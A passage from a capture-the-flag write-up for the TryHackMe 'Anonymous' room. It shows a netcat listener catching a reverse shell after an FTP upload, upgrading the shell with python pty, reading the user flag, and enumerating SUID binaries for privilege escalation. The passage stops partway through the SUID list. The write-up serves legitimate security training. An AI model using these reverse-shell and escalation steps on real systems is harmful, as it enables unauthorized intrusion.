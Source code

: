 ```
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
91 bytes sent in 0.00 secs (334.0872 kB/s)
```
All we need to do now is set up a netcat on our IP and port 4445. #boom
```
/CTF/tryhackme/anonymous$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.82.178] 40404
/bin/sh: 0: can't access tty; job control turned off
```
Using - python -c 'import pty;pty.spawn("/bin/bash")'- to get a better working shell, we can now search for the user flag. Lets all check if we can see if we have sudo permissions for any files or commands.
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$ ls
ls
pics  user.txt
namelessone@anonymous:~$ cat user.txt	
cat user.txt
<insert-user-flag-here>
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ sudo -l
sudo -l
[sudo] password for namelessone: 
```
So we need a password for sudo -l. Lets checkout the SUID files instead.
```
namelessone@anonymous:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
```
